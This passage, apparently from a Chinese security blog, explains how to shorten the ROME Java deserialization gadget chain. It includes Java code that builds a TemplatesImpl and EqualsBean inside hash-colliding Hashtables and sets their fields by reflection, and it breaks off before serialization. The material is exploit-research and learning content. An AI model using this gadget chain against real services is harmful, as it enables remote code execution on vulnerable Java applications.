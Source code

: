 ```
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }

}
```

剩下的类也是Y4的一样，在下面有

# ROME链缩短

## EqualBean的equals方法

这里是Y4的博客https://y4tacker.github.io/2022/03/07/year/2022/3/ROME%E6%94%B9%E9%80%A0%E8%AE%A1%E5%88%92/#Step1%E2%80%93%E6%94%B9%E9%80%A0%E5%88%A9%E7%94%A8%E9%93%BE

通过HashMap中的equals调用到了EqualBean的equals方法

Rome.java

```
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import javax.xml.transform.Templates;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Hashtable;


public class Rome {

    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = GetTemplatesImpl.getTemplatesImpl();
        EqualsBean bean = new EqualsBean(String.class,"");
//        HashMap map1 = new HashMap();
//        HashMap map2 = new HashMap();
//        map1.put("aa",templates);
//        map1.put("bB",bean);
//        map2.put("aa",bean);
//        map2.put("bB",templates);
//        HashMap map = new HashMap();
//        map.put(map1,"");
//        map.put(map2,"");
        Hashtable hashtable1 = new Hashtable();
        Hashtable hashtable2 = new Hashtable();
        hashtable1.put("aa",templates);
        hashtable1.put("bB",bean);
        hashtable2.put("aa",bean);
        hashtable2.put("bB",templates);
        Hashtable hashtable = new Hashtable();
        hashtable.put(hashtable1,"");
        hashtable.put(hashtable2,"");

        setFieldValue(bean,"_beanClass",Templates.class);
        setFieldValue(bean,"_obj",templates);


```